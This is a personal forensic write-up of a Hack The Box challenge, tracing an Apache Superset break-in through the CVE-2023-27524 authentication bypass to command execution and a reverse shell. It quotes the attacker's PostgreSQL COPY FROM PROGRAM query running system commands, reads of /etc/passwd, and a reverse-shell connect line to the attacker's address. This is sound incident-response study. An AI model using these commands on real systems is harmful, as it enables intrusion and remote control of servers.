

### Introduction

This write-up documents my investigation of a smaller Apache Superset-focused Sherlock challenge on Hack The Box. I want to be upfront that these notes are not meant to be on the same level as some of my previous Sherlock write-ups, especially **Knock Knock**. Those investigations usually included a lot more screenshots, deeper artifact review, and multiple days of work.

I started this one on a whim on a summer Friday night and finished it in a couple hours. I have also been busy working my cybersecurity internship this summer, so I have not had the same amount of time to dedicate to detailed Sherlock notes. These are supposed to be a little more raw and casual while I get back into the swing of doing these investigations again.

The main goal here was to document my thought process and the pivots that helped me answer the questions. Anyone reading my GitHub can still see how I worked through the evidence, even if this is not one of my full multi-day reports.

### Objective

My main goals for this investigation were to figure out:

- Which Docker-hosted application was vulnerable
- Which system and port exposed the application
- Which IP address was responsible for the activity
- How the attacker bypassed authentication
- When command execution started
- What commands were run through SQL Lab
- Where the reverse shell was configured to connect

<br>

# Apache Superset Sherlock - DFIR Notes

**Hack The Box Initial Information:**

The main clue provided was that the vulnerable web application was running in Docker. The evidence included a UAC collection from the Linux server and a separate folder containing SQL Lab cache artifacts.

<br>

**Executive Summary**

The vulnerable server was `192.168.194[.]128:8088` and it was hosting Apache Superset inside Docker. The suspicious traffic came from `192.168.194[.]129` using the User-Agent `python-requests/2.26.0`.

The attacker targeted Superset's login page and then began reaching backend database API routes. This activity matched **CVE-2023-27524**, an authentication bypass caused by an insecure default Superset secret key. The first use of the exploit was observed at `2025-11-01 19:26:14`.

After bypassing authentication, the attacker used Superset's SQL Lab feature to run PostgreSQL queries containing operating-system commands. The first command executed was `ls /etc/passwd` at `2025-11-01 19:27:42`. The attacker later ran `cat /etc/passwd` and staged a reverse-shell payload configured to connect to `192.168.194[.]129` on TCP port `4242`.

<br>

**Finding the Vulnerable Server and Port**

The first question asked for the IP address and port of the vulnerable server.

I started in the UAC collection under `live_response\network` and reviewed `ip_addr_show.txt`. This showed that the Linux system's IPv4 address was:

```text
192.168.194.128
```

From there I checked `lsof_-npli.txt`, which gave me a list of open files and active network listeners. Since the only starting clue was that the application was running in Docker, I was specifically looking for anything related to Docker networking.

I found `docker-pr` listening on port `8088`, giving me the answer:

```text
192.168.194.128:8088
```

<br>

**Identifying Apache Superset**

Once I knew the host and port, I searched the entire UAC collection for references to that address:

```powershell
Get-ChildItem -Recurse | Select-String "192.168.194.128:8088" | Out-File .\ip_hits.txt
```

Most of the useful hits came from:

```text
live_response\containers\docker_container_logs_dee3f31ac261
```

Toward the more recent entries I saw repeated requests involving `/superset/` and `/sqllab/`. A quick search confirmed that these routes belonged to **Apache Superset**, an open-source data visualization application.

This was also where the activity started looking more interesting. A different IP was interacting with the application using a Python requests User-Agent rather than a normal web browser.

<br>

**Malicious IP and User-Agent**

The suspicious requests came from:

```text
192.168.194.129
```

The User-Agent was:

```text
python-requests/2.26.0
```

The logs showed this automated client targeting `/login/` and then making requests to `/api/v1/database/` endpoints. Seeing a Python client move from the login page into backend database routes made this look a lot more like scripted exploitation than normal user activity.

<br>

**Identifying CVE-2023-27524**

I researched known Apache Superset vulnerabilities and compared their behavior to the container logs.

The attacker first sent requests to `/login/` and received `200 OK` responses. Shortly after that, the same Python client began successfully reaching `/api/v1/database/` endpoints. That jump suggested the attacker had bypassed authentication and gained access to backend resources.

This lined up with **CVE-2023-27524**, which affects Superset installations using a known default Flask `SECRET_KEY`. An attacker can use that key to forge a valid session cookie and impersonate an authenticated user, including an administrator.

The first exploit-related activity appeared at:

```text
2025-11-01 19:26:14
```

<br>

**SQL Lab and the First System Command**

After authentication was bypassed, the attacker used Superset's SQL Lab feature to send commands through PostgreSQL. The system commands appeared inside the `sqllab` artifacts because they were embedded inside SQL queries. Basic HTTP logs usually show the URL and response code, but not the full POST body containing the SQL.

The first operating-system command was delivered through PostgreSQL's `COPY FROM PROGRAM` functionality:

```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'ls /etc/passwd';
SELECT * FROM cmd_exec;
```

The first actual host execution occurred at:

```text
2025-11-01 19:27:42
```

The SQL Lab cache recorded the query being submitted slightly before that, but the host execution evidence showed the process beginning in the next second. This was a useful reminder to separate application request time from actual process execution time.

The next system command was:

```text
cat /etc/passwd
```

<br>

**Decoding the SQL Lab Cache Files**

The files inside `sqllab_copy` had hashed filenames and looked like gibberish when opened as text. They were Superset cache objects containing several encoding layers.

I used an AI-assisted Python script to safely unpack the cache files, decompress the zlib data, decode the MessagePack objects, and print the stored SQL queries and timestamps. The script avoided `pickle.loads()` because loading an untrusted pickle can execute the attacker's code.

In simple terms, the decoding process looked like this:

```text
Superset cache file
→ safely inspect pickle container
→ decompress zlib data
→ decode MessagePack
→ recover the SQL query and results
```

Once decoded, the commands and query order were pretty easy to follow.



<br>

**Reverse-Shell Port**

One of the later SQL queries updated a key-value entry with a long value beginning with `\x`. This was a hex-encoded Python pickle payload.

After converting the hexadecimal data back into readable text, the reverse-shell code contained:

```python
s.connect(("192.168.194.129",4242))
```

This showed that the reverse shell was configured to connect back to the attacker on:

```text
192.168.194.129:4242
```
<br>

**Attack Chain Summary**

1. Attacker performs reconnaissance against the Docker server
2. Attacker targets Apache Superset on port `8088`
3. Python requests client interacts with `/login/`
4. CVE-2023-27524 is used to forge an authenticated session
5. Attacker reaches backend database API and SQL Lab functionality
6. SQL Lab submits PostgreSQL queries containing system commands
7. `ls /etc/passwd` executes at `19:27:42`
8. Attacker runs `cat /etc/passwd`
9. A reverse-shell payload is written into the database
10. Payload is configured to connect to `192.168.194[.]129:4242`

<br>

**Lessons Learned**

The biggest takeaway from this investigation was that the most useful evidence was not always in the obvious place. The HTTP logs helped identify the attacker and exploitation pattern, but the full commands were preserved in Superset's SQL Lab cache because that was how the attacker delivered them.

This was also good practice working with less familiar Linux and application artifacts. Even though this was a quicker investigation, I still got to follow a full path from exposed service, to authentication bypass, to SQL abuse, command execution, and finally a reverse shell.

For a short Friday-night Sherlock, it was a solid way to get back into the investigation mindset without trying to turn every answer into a full incident report.
